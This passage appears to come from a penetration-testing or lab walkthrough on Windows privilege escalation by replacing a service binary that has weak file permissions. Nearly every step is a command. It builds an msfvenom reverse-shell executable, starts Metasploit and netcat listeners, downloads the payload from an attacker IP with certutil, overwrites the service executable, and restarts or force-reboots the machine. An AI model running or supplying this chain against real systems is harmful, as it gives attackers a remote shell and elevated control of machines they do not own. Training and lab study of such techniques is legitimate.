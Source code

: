 ```yaml
---
legal-banner: true
---
```


### **EXPLOITING SERVICE WITH METASPLOIT**

3.  we can use msfvenom to create a reverse shell payload  
    `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f exe-service -o reverse.exe`  
    
    ![](../../../../img/Windows-Environment/42.png)

    ??? info "NOTE"

        If we had found this service running from the Program Files (x86) folder, we may want to consider making a 32-bit executable, as a 64-bit one may not work for the service.
    
4.  Start your listener on the attacking machine  
    `msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT [PORT]; run"`  
    
    ![](../../../../img/Windows-Environment/43.png)


    ??? info "NOTE"

        Alternatively, we can start a listener using nc:  `sudo rlwrap -cAr nc -lvnp 1338`.
    
5.  After Strarting listener, transfer reverse.exe to the target machine.  
    `certutil -urlcache -f http://10.11.92.52:8000/reverse.exe reverse.exe`  
    
    ![](../../../../img/Windows-Environment/44.png)
    
6.  To exploit the service, replace filepermservice.exe with reverse.exe, while maintaining the original binary name.
    
    `Copy-Item -Path "C:\Temp\reverse.exe" -Destination "C:\Program Files\File Permissions Service\filepermservice.exe" -Force`  

    ![](../../../../img/Windows-Environment/45.png)

    ??? info "NOTE"

        For cmd, we can use the following command: `copy /y c:\Temp\reverse.exe "c:\Program Files\File Permissions Service\filepermservice.exe"`

7.  Now, all we have to do is run `sc stop filepermsvc` , `sc start filepermsvc` or `net start filepermsvc` on the target Machine to execute the exploit.
    
    ![](../../../../img/Windows-Environment/46.png)
    
    ??? info "IMPORTANT"

        If SeShutdownPrivilege is enabled you can reboot to have the service to restart automatically.  
    `shutdown /r /t 0 /f`